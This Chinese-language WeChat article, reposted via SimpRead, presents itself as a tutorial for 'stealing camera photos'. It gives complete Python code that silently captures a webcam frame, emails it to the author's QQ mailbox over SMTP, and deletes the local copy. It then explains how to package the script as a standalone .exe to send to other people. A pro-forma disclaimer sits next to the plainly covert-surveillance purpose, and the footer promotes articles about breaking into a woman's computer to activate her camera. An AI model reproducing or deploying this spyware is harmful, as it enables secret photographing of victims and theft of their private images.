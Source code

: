 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/w2w0i0Nox8XvIrTKT_KxAg)

**作者：Henrik-Yao**

**转载自：http://nxw.so/5nIWK**

本文仅用于技术讨论，切勿用于违法途径，且行且珍惜  

**今天分享个用 python 做一个属于自己的窃取摄像头照片的软件。**  

需要安装 python3.5 以上版本，在官网下载即可。

然后安装库 opencv-python，安装方式为打开终端输入命令行。  

可以在使用 pip 的时候加参数 - i https://pypi.tuna.tsinghua.edu.cn/simple，这样就会从清华这边的镜像去安装需要的库，会快很多。

```
pip install opencv-python -i https://pypi.tuna.tsinghua.edu.cn/simple/
```

具体的代码以及相应的注释如下，你只需要更改收件人和发件人为自己的邮箱，更改授权码，再编译成可执行文件，即把. py 打包成. exe，这样就可以发给别人用啦。

```
import os                                       # 删除图片文件
import cv2                                      # 调用摄像头拍摄照片
from smtplib import SMTP_SSL                    # SSL加密的   传输协议
from email.mime.text import MIMEText            # 构建邮件文本
from email.mime.multipart import MIMEMultipart  # 构建邮件体
from email.header import Header                 # 发送内容


# 调用摄像头拍摄照片
def get_photo():
    cap = cv2.VideoCapture(0)           # 开启摄像头
    f, frame = cap.read()               # 将摄像头中的一帧图片数据保存
    cv2.imwrite('image.jpg', frame)     # 将图片保存为本地文件
    cap.release()                       # 关闭摄像头


# 把图片文件发送到我的邮箱
def send_message():
    # 选择QQ邮箱发送照片
    host_server = 'smtp.qq.com'         # QQ邮箱smtp服务器
    pwd = '****************'            # 授权码
    from_qq_mail = 'QQ@qq.com'          # 发件人
    to_qq_mail = 'QQ@qq.com'            # 收件人
    msg = MIMEMultipart()               # 创建一封带附件的邮件

    msg['Subject'] = Header('摄像头照片', 'UTF-8')    # 消息主题
    msg['From'] = from_qq_mail                       # 发件人
    msg['To'] = Header("YH", 'UTF-8')                # 收件人
    msg.attach(MIMEText("照片", 'html', 'UTF-8'))    # 添加邮件文本信息

    # 加载附件到邮箱中  SSL 方式   加密
    image = MIMEText(open('image.jpg', 'rb').read(), 'base64', 'utf-8')
    image["Content-Type"] = 'image/jpeg'   # 附件格式为图片的加密数据
    msg.attach(image)                      # 附件添加

    # 开始发送邮件
    smtp = SMTP_SSL(host_server)           # 链接服务器
    smtp .login(from_qq_mail, pwd)         # 登录邮箱
    smtp.sendmail(from_qq_mail, to_qq_mail, msg.as_string())  # 发送邮箱
    smtp.quit()     # 退出


if __name__ == '__main__':
    get_photo()                 # 开启摄像头获取照片
    send_message()              # 发送照片
    os.remove('image.jpg')      # 删除本地照片
```

获取授权码的方法：设置 -> 账户 -> 开启 pop3/smtp 服务 -> 验证密保，即可获取到 16 位授权码。

![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSHQPibVj8T6u6g1jUQF0nw8nJT0LjH7EV7YN3JMJYNWEHH16FgZQOMichwbq9vIcFsMjsr4hEiadkLtQ/640?wx_fmt=jpeg)  
![](https://mmbiz.qpic.cn/mmbiz_png/ULibHgXIt3jz54bibWVpwHyrVmuD7TocqIebyIZ0kicVZQmCx4vsfhdxv14Ps2DPV4oeRMZhfMK595kJklxd6GlRg/640?wx_fmt=png)  
![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSHQPibVj8T6u6g1jUQF0nw8nljVTAC1q84kljiajdwDdA6Zw47TTMX76Dzc5UqwCzLOIw5RISN83PNQ/640?wx_fmt=jpeg)  
![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSHQPibVj8T6u6g1jUQF0nw8nZlhHXtLN15CvL3zHsicSLdgBBX3mGNbmWKsU8jJIB1iadJqs5QsPWyYw/640?wx_fmt=jpeg)

****打包方法：****

1. 先安装 pyinstaller，在终端中输入 pip install pyinstaller 即可。

2. 找路径，用 cd 法找路径比较麻烦，这里推荐一种简便的方法，直接在路径框里面输入 cmd 进入终端即可，进入了就是目标路径。

![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSHQPibVj8T6u6g1jUQF0nw8nnmILInsdrUl5z86N0U7mx3jRUq7swwUic4jRKO0hDsBQZpew5o64sOw/640?wx_fmt=jpeg)

3. 打包，输入命令行

```
pyinstaller --console --onefile 7.py  //这里打包的是一个叫7.py的文件。
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSHQPibVj8T6u6g1jUQF0nw8nlC2XxpSuDxTpldW169Yr4f65EXzcZwLFU1PBAEvKkHibqPM9LIkoZcQ/640?wx_fmt=jpeg)

在 dist 文件夹里面即可找到可执行文件。

![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSHQPibVj8T6u6g1jUQF0nw8nNibj0PCCpdZZdiby17YuRgib3oQ0atmeEicN1FeXxStxf6pQllENTELaWg/640?wx_fmt=jpeg)  
![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSHQPibVj8T6u6g1jUQF0nw8nhxicP5ewdSDa6zyGD23s7GibjYf7aDF276H2H718qIUe1F9IcwtQ8vyg/640?wx_fmt=jpeg)

最后实验一下，会得到一个 bin 后缀的附件，把他改成 jpg 即可查看。

![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSHQPibVj8T6u6g1jUQF0nw8nGxaCnpZYEBFONZ6rgyzEWyggm0bgBd3wLDhMQg4AdnBTgEyicEibCVXg/640?wx_fmt=jpeg)

学习更多黑客技能！体验靶场实战练习

![图片](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFl47EYg6ls051qhdSjLlw0BxJG577ibQVuFIDnM6s3IfO3icwAh4aA9y93tNZ3yPick93sjUs9n7kjg/640?wx_fmt=png)

（黑客视频资料及工具）  

![图片](https://mmbiz.qpic.cn/mmbiz_gif/CBJYPapLzSEDYDXMUyXOORnntKZKuIu5iaaqlBxRrM5G7GsnS5fY4V7PwsMWuGTaMIlgXxyYzTDWTxIUwndF8vw/640?wx_fmt=gif)

![图片](https://mmbiz.qpic.cn/mmbiz_png/sSriaaVicBMGmevib5nPyT8m3VxloX9cCQVGymXpYDibVwwMOmSaPtE9ib02ic3rRqoJH3Tics60h67X4ASIkXDowHV5A/640?wx_fmt=png)

往期回顾

[

一次渗透妹子电脑开摄像头全过程

2020-06-05

![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSEIpgrb05kic0ch8icBLXTIicO71YTG5RyHZonM1icX01q0qaV3vkxsFeQnL7Z70ZyA4rw2z9BNTVtx2Q/640?wx_fmt=jpeg)

](http://mp.weixin.qq.com/s?__biz=MzI4NTcxMjQ1MA==&mid=2247487161&idx=1&sn=a1e333483d38c103c576d14fc977effe&chksm=ebe94794dc9ece829ee88a2b2fcc8f06e89295675f179b1d8f07ccc33fe336871cf8685a9641&scene=21#wechat_redirect)

[

黑客技能！教你编写网络监听工具

2020-06-15

![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSEE2hN99A1uQbicLiaoTmoneuEESPQcdcmqBGHNS7EYicMsicrL6dgKLKlCT8wpU7enths4EqPa3VNrHw/640?wx_fmt=jpeg)

](http://mp.weixin.qq.com/s?__biz=MzI4NTcxMjQ1MA==&mid=2247487829&idx=1&sn=c217fd8068b8fba0ddb353efee4e87f4&chksm=ebe95878dc9ed16e2b0b780c256b4f82ab7a1d9918bbd65f97e0d88d17eb6a9e547cfa00cd62&scene=21#wechat_redirect)

[

经验分享 / 小白如何拿到 CNVD 漏洞证书？

2020-06-24

![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSEu5t86FGVCW8iciaymx8niahiaRm3QNddEmkF4sFLwrsI4FOanJwofN97adqTicQGqZ8ItwhbrBOKFgOA/640?wx_fmt=jpeg)

](http://mp.weixin.qq.com/s?__biz=MzI4NTcxMjQ1MA==&mid=2247488448&idx=1&sn=d20ad7e5a48836d6ac52c6d92b56928c&chksm=ebe95aeddc9ed3fbf371ca2f8738fc9ad8bd2bdc2d2d581559798a92a65b48a6d0353dbac42f&scene=21#wechat_redirect)

[

渗透某个卖摄像头的网站，年久失修，盘他！

2020-11-21

![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSHicKFty4YXN0rBsOyibob1fcvSnrTsuItA07RmD8FMAuB2JDLOCiaQsiahibOKwCnX4GZatHr3wp055cQ/640?wx_fmt=jpeg)

](http://mp.weixin.qq.com/s?__biz=MzI4NTcxMjQ1MA==&mid=2247498991&idx=1&sn=9fca55575d14cbcd3dc3018801e4ef17&chksm=ebeab5c2dc9d3cd43d6902033fd29061c10f4f4820b1d4ce9830b96c7027c43b12e2db289249&scene=21#wechat_redirect)

[

实战渗透！我是如何一个破站日一天的

2020-10-16

![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSFhMAj2FOt9VicC0y4F2KP9oDftuRlqoiabdibSYTsxSH1kZzKaPO6u94icpHoZmibNry3BIg9M15xdfnQ/640?wx_fmt=jpeg)

](http://mp.weixin.qq.com/s?__biz=MzI4NTcxMjQ1MA==&mid=2247495260&idx=1&sn=0270f1125bdd00836848fa1679cd926d&chksm=ebeaa771dc9d2e672d7eeb3c2eeca2979b8a8bf6071a735a7df4283edea738b450e87590be57&scene=21#wechat_redirect)

[

7 个仿黑客装逼网站

2020-10-02

![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSFb18QztYjwqf6Har4YSSd1SvBAhibKYic0TGnDuqng795HI3nUdUiaRPhukcNyxV6WHOkY2EJWrE5SA/640?wx_fmt=jpeg)

](http://mp.weixin.qq.com/s?__biz=MzI4NTcxMjQ1MA==&mid=2247494369&idx=1&sn=1c8653ab20df67b3c277f88f1b692c98&chksm=ebeaa3ccdc9d2ada0377a31d12024c929b3ae3d4709b25a4e9ca2d9e2827ab080439f008aa62&scene=21#wechat_redirect)